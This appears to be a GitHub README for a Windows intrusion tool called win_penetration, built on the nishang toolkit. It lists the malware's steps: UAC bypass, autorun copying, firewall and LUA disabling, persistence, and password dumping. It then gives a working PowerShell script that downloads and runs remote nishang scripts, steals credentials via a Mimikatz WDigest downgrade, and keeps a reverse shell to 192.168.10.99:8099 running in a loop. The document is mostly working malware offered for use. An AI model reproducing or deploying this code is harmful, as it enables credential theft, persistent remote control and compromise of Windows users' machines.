 # win_penetration

powered by [nishang](https://github.com/samratashok/nishang)

### main behaviour
- extract bat file to tmp directory
- bypass UAC and run bat file to:
    - copy self to autorun directory
    - disable LUA
	- close network firewall
	- extract 1.ps1 to powershell root directory
	- run 1.ps1
- Add-Persistence
- lock screen and dump user passwords
- run PowerShellTcp listenning on 192.168.10.99:8099


### 1.ps1
```
IEX (New-Object System.Net.Webclient).DownloadString('https://raw.githubusercontent.com/samratashok/nishang/master/Utility/Add-Persistence.ps1')
Add-Persistence -ScriptPath C:\Windows\System32\WindowsPowerShell\v1.0\1.ps1

$strFileName="c:\windows\zzzjob.log"
If (Test-Path $strFileName){
	# // File exists
	
}Else{
	# // File does not exist
	IEX (New-Object System.Net.Webclient).DownloadString('https://raw.githubusercontent.com/samratashok/nishang/master/Gather/Invoke-MimikatzWDigestDowngrade.ps1')
	Invoke-MimikatzWDigestDowngrade
	Get-Job | Receive-Job | Out-File c:\windows\zzzjob.log
}

While(1){
	Try {
		start-job {
			IEX (New-Object System.Net.Webclient).DownloadString('https://raw.githubusercontent.com/samratashok/nishang/master/Shells/Invoke-PowerShellTcp.ps1');
			Invoke-PowerShellTcp -Reverse -IPAddress 192.168.10.99 -Port 8099
		}
		get-job | wait-job
	}
	Catch {
		Write-Error $Error[0].ToString() + $Error[0].InvocationInfo.PositionMessage
	}
	Start-Sleep -Seconds 3
}

```